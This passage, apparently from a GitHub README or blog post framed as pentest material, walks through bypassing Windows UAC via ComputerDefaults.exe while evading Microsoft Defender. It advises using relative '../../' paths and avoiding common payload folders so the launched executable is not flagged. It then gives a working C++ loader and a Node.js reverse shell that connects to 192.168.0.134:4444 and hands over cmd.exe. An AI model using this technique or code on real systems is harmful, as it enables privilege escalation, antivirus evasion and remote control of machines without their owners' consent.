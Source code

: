 If you do: `-Value "notepad"`, Defender is super chill and loves you.  

If you do: `-Value "cmd"`...

![image](https://github.com/user-attachments/assets/708e3c65-cbe9-48dd-bd80-f032d4cb840d)

How about: `-Value "C:\Users\Public\something.exe"`...

![image](https://i.ytimg.com/vi/3CqCq5RtrJo/hq720.jpg?sqp=-oaymwEhCK4FEIIDSFryq4qpAxMIARUAAAAAGAElAADIQj0AgKJD&rs=AOn4CLAqFuuJ8vitOjfCsrPgPFKUxxhiYQ)

So...What if we do.... `-Value "../../myfolder/barney.exe"`

![image](https://github.com/user-attachments/assets/a10b248b-f5af-424b-a042-f8ba2439201a)

![image](https://media0.giphy.com/media/5y8sRBYSWWb16/giphy.gif?cid=6c09b9522xxdays2x4v6zjs6o5y3oejjfsd40rac1du7g9j4&ep=v1_gifs_search&rid=giphy.gif&ct=g)

It's as simple as that my friends.  Don't include Drive letters, Don't include popular payload locations like `c:\users\public` and `c:\temp`.  Just go with the old school ..\\..\\ routine and avoid all that altogether and convince Defender that you are in the right.  Right?! 😸

Also I should mention, the ../../ goes from c:\windows\system32 -> c:\ root directory.  Just create a folder of your choosing and place your .exe in it.

All that's left now is to issue the final statement: 

`Start-Process "C:\Windows\System32\ComputerDefaults.exe"` and we're off to the races!  Your .exe file you placed in the `Value` parameter will be executed without Defender yelling at you.

I should probably also show you what I did as far as my payload goes.  I kept it really simple.  `barney.exe` is just a simple C++ loader.  This is for demo purposes of course.  In a realistic pentest scenario, you'd be substituting your actual C2 implant in the `Value` field:

```cpp

#include <windows.h>

int main()
{
    WinExec("c:\\users\\public\\n0de.exe c:\\users\\public\\elevationstation.js", 0);
}
```

Compile that and move it to the folder you designated in your powershell `Value` field/parameter.

Next up, I'll explain the Node stuff.  `N0de.exe` is literally the renamed Node.JS binary I downloaded as a portable from the Node.js site.  I always use node for pentest engagements as it's a friendly living off the land binary and seems to remain undetected.  Node then opens this .js file, which is my reverse shell:

```javascript
(function(){
var net = require("net"),
cp = require("child_process"),
sh = cp.spawn("cmd.exe", []);
var client = new net.Socket();
client.connect(4444, "192.168.0.134", function(){
client.pipe(sh.stdin);
sh.stdout.pipe(client);
sh.stderr.pipe(client);
});
return /a/;
})();
```

